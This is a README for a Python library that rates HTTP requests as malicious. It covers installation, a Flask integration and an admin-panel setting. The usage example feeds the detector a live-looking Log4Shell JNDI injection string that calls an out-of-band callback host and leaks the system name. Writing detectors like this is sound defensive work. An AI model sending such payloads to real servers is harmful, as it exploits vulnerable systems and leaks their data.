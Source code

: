 <h1 align="center">httpanalyzer</h1>

<p align="center">
<a href="https://www.python.org/"><img alt="Language" src="https://img.shields.io/badge/Language-Python-blue?style=for-the-badge&logo=python"></a>
<a href="https://mit-license.org/"><img alt="License" src="https://img.shields.io/pypi/l/httpanalyzer?color=blueviolet&style=for-the-badge"></a>
<a href="https://pypi.org/project/httpanalyzer/"><img alt="Version" src="https://img.shields.io/pypi/v/httpanalyzer?label=version&logo=pypi&style=for-the-badge"></a>
<a href="https://github.com/MartinMerkli/httpanalyzer"><img alt="Stars" src="https://img.shields.io/github/stars/martinmerkli/httpanalyzer?color=lightgrey&logo=github&style=for-the-badge"></a>
<a href="https://github.com/MartinMerkli/httpanalyzer/commits/main"><img alt="Commit Activity" src="https://img.shields.io/github/commit-activity/m/martinmerkli/httpanalyzer?color=green&style=for-the-badge"></a>
</p>

This is a python library for analyzing http-request. Useful to reduce unnecessary traffic. 

## License

This project is licensed under the MIT-license. See LICENSE.txt for more information.

## Installing

Make sure pip3 is installed and up to date before executing this command.

```
pip3 install httpanalyzer
```

## Usage

Import the library:

```
import httpanalyzer
```

Create a new request instance:

```
instance = httpanalyzer.Request(http_headers, ip, url, admin_panels)
```

Print the malicious rating:

```
print(instance.malicious())
```

### Example

```
import httpanalyzer

instance = httpanalyzer.Request(
    {'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
     'Accept-Encoding': 'gzip, deflate, br',
     'Accept-Language': 'en-US,en;q=0.5',
     'Connection': 'keep-alive',
     'Host': '127.0.0.1:80',
     'User-Agent': 'curl/7.82.0'},
    '159.223.205.51',
    '/api/geojson?url=${jndi:ldap://${sys:os.name}.cd387hid68000106u4rtc.oast.me}',
    ['wp-content', 'wp-config', 'wp-includes']
)
print(f"Malicious rating: {instance.malicious() * 100}%")
```

### Admin Panels

To reduce the amount of false positives, specify all admin panels you are using. For WordPress this would be `['wp-content', 'wp-config', 'wp-includes']`.

### Flask

httpanalyzer natively supports flask request objects:

```
instance = httpanalyzer.FlaskRequest(flask.request)
```

## Dependencies

Python 3.6 or newer is required. Older versions do not work.
